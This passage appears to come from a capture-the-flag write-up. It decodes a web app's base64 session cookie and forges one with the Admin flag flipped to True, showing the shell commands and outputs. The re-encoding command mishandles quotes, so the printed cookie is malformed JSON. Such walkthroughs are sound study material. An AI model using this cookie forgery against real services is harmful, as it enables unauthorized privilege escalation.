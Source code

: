 Interesting.. so there is a cookie that is also returned which always appears to
be the same value even for subsequent POST requests.

### C IS FOR COOKIE

Let's see if we can decode this cookie..

```
ORIGINAL

ses=eyJVc2VyIjoid2hvY2FyZXMiLCJBZG1pbiI6IkZhbHNlIiwiTUFDIjoiZmY2ZDBhNTY4ZDYxZTVhMDNiY2RiMDQ1MDlkNTg4NWQifQ%3D%3D
```

```
URL DECODED

ses=eyJVc2VyIjoid2hvY2FyZXMiLCJBZG1pbiI6IkZhbHNlIiwiTUFDIjoiZmY2ZDBhNTY4ZDYxZTVhMDNiY2RiMDQ1MDlkNTg4NWQifQ==
```

```
BASE64 DECODED

$ echo "eyJVc2VyIjoid2hvY2FyZXMiLCJBZG1pbiI6IkZhbHNlIiwiTUFDIjoiZmY2ZDBhNTY4ZDYxZTVhMDNiY2RiMDQ1MDlkNTg4NWQifQ==" | base64 -D
{"User":"whocares","Admin":"False","MAC":"ff6d0a568d61e5a03bcdb04509d5885d"}
```

Hm.. is it as simple as manipulating the "Admin" flag and sending the cookie
as part of the POST request?

### NEW COOKIE (ADMIN:TRUE)

Let's try crafting a new cookie with the "Admin" flag flipped to "True" and see
what happens.

```
BASE64 ENCODED

$ echo "{"User":"whocares","Admin":"True","MAC":"ff6d0a568d61e5a03bcdb04509d5885d"}" | base64
e1VzZXI6d2hvY2FyZXMsQWRtaW46VHJ1ZSxNQUM6ZmY2ZDBhNTY4ZDYxZTVhMDNiY2RiMDQ1MDlkNTg4NWR9Cg==
```

```
URL ENCODED COOKIE
ses=e1VzZXI6d2hvY2FyZXMsQWRtaW46VHJ1ZSxNQUM6ZmY2ZDBhNTY4ZDYxZTVhMDNiY2RiMDQ1MDlkNTg4NWR9Cg%3D%3D
```

